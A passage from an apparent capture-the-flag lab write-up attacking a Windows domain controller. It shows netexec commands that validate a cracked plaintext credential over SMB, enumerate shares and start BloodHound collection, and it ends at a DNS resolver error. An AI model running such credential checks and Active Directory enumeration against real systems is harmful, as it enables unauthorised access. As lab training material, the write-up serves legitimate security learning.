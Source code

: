 On trying to crack these hashes with Crack station
![[Pasted image 20250926154102.png]]
We can check if these credentials works on the target machine with `netexec`

```bash
netexec smb 10.10.151.214 -u rsmith -p 'IHateEric2'
```

```output
SMB         10.10.151.214   445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:False) 
SMB         10.10.151.214   445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
```
Checking the shares, there’s wasn’t any interesting share
```bash

netexec smb 10.10.151.214 -u rsmith -p 'IHateEric2' --shares
```

```output
SMB         10.10.151.214   445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:False) 
SMB         10.10.151.214   445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
SMB         10.10.151.214   445    LABDC            [*] Enumerated shares
SMB         10.10.151.214   445    LABDC            Share           Permissions     Remark
SMB         10.10.151.214   445    LABDC            -----           -----------     ------
SMB         10.10.151.214   445    LABDC            ADMIN$                          Remote Admin
SMB         10.10.151.214   445    LABDC            C$                              Default share
SMB         10.10.151.214   445    LABDC            IPC$            READ            Remote IPC
SMB         10.10.151.214   445    LABDC            NETLOGON        READ            Logon server share 
SMB         10.10.151.214   445    LABDC            SYSVOL          READ            Logon server share 
```

lets run bloodhound
```bash
$ netexec ldap 10.10.233.118 -u 'rsmith' -p 'IHateEric2' --bloodhound -c ALL
```

we receive a error 
```output
usr/lib/python3/dist-packages/dns/resolver.py:1363 in query                                                                                        │                  
                    │                                                                                                                                                     │                  
                    │   1360 │   │   │   DeprecationWarning,                                                                                                              │                  
                    │   1361 │   │   │   stacklevel=2,                                                                                                                    │                  
                    │   1362 │   │   )                                                                                                                                    │                  
                    │ ❱ 1363 │   │   return self.resolve(                                                                                                                 │                  
                    │   1364 │   │   │   qname,                                                                                                                           │                  
                    │   1365 │   │   │   rdtype,                                                                                                                          │                  
                    │   1366 │   │   │   rdclass,                                                                                                                         │                  
                    │                                                                                                                                                     │                  
                    │ /usr/lib/python3/dist-packages/dns/resolver.py:1317 in resolve                                                                                      │                  
                    │                                                                                                                                                     │                  
```